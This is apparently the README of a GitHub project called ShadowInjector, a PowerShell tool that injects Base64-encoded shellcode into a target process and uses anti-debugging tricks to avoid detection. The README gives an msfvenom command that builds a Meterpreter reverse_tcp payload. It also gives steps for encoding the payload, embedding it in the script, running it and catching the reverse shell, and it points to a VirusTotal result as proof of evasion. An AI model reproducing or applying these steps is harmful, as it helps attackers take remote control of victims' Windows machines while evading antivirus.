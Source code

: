 # ShadowInjector
A sophisticated PowerShell script that stealthily injects Base64-encoded shellcode into the target process, featuring anti-debugging techniques to evade detection.



## Running the Script
You can create the malicious payload as follows.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f csharp

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Creating%20a%20payload.png)

Perform the encode process by pasting the created shellcode into the "# shellcode will be written here" section.
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/shellcode_encode.png)

Add the base64 encoded payload to the "add_shell_code_here" section of the script.

To run the script, open a PowerShell window and execute the following command:

.\ShadowInjector.ps1
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Run%20Script.png)

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Listening.png)

## Virustotal Result
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/virustotal.png)


